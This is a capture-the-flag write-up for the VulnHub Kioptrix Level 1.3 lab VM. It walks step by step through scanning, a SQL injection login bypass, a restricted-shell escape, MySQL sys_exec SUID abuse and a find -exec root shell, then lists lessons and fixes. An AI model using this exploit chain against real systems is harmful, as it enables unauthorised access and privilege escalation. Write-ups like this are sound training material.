





# Kioptrix: Level 1.3 (#4) — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.106 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Root Flag** | `congrats.txt` in `/root` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/) |

## Attack Summary

`nmap` → `dirb` → SQLi bypass → SSH (restricted shell) → `echo os.system('/bin/bash')` → MySQL `sys_exec` SUID trick → `/bin/find -exec` → root

## Methodology

1. Network discovery and port scan
2. Directory brute-force
3. SQL injection on login form
4. SSH with recovered credentials (restricted shell escape)
5. MySQL `sys_exec` to set SUID on `/usr/bin/find`
6. Privilege escalation via `find -exec`

---

## Step 1: Network Discovery and Port Scan

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
nmap -A 192.168.1.106
```

Open ports:
- Port 22: OpenSSH
- Port 80: Apache (login form)



---

## Step 2: Directory Brute-Force

```bash
dirb http://192.168.1.106
```

Reveals `/john` and `/robert` directories, hinting at valid usernames.



---

## Step 3: SQL Injection on Login Form

Browse to `http://192.168.1.106`. Try username `john` with a SQLi password:

```
Username: john
Password: ' or 1=1 #
```

Login succeeds and the page leaks the credential: **john / MyNameIsJohn**.



---

## Step 4: SSH Login — Restricted Shell Escape

```bash
ssh john@192.168.1.106
# password: MyNameIsJohn
```

The shell is restricted (`lshell`). Escape it:

```bash
echo os.system('/bin/bash')
```

Now in a full bash shell. Read the web application source to find database credentials:

```bash
cat /var/www/checklogin.php
```

MySQL credentials: `root` with **no password**.

---

## Step 5: MySQL `sys_exec` — SUID Privilege Escalation

Connect to MySQL as root (no password):

```bash
mysql -u root
```

Use `sys_exec` to set the SUID bit on `/usr/bin/find`:

```sql
SELECT sys_exec('chmod u+s /usr/bin/find');
quit
```

Back in the bash shell, verify:

```bash
ls -la /usr/bin/find
# -rwsr-xr-x ... /usr/bin/find
```



---

## Step 6: Privilege Escalation via `find -exec`

The `find` binary now runs as root via the SUID bit. Use `-exec` to spawn a root shell:

```bash
cd /tmp
touch raj
find raj -exec whoami \;
# root
find raj -exec /bin/sh \;
id
# uid=0(root)
cat /root/congrats.txt
```



---

## Lessons Learned

1. **SQL injection on login** leaks plaintext credentials stored in the database — use parameterized queries and hash passwords.
2. **Restricted shells** (`lshell`) are bypassed trivially via Python/echo tricks — they are not a security boundary.
3. **MySQL running as root** with no password is critically dangerous — it allows OS-level command execution via `sys_exec`.
4. **`sys_exec` in MySQL UDF** grants full OS access — restrict MySQL users to minimum required privileges, never run mysqld as root.
5. **SUID on `find`** provides instant root via `-exec` — audit SUID binaries regularly.

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| SQLi on login form | Parameterized queries; don't expose usernames via directory listing |
| Restricted shell escape | Replace lshell with proper rbash + chroot, or remove interactive SSH |
| MySQL root with no password | Set a strong password; run mysqld as a dedicated low-privilege user |
| `sys_exec` SUID abuse | Remove UDF; never grant `FILE` or `SUPER` privileges to web app DB users |
| Credentials in PHP source | Move config to environment variables; restrict web root permissions |
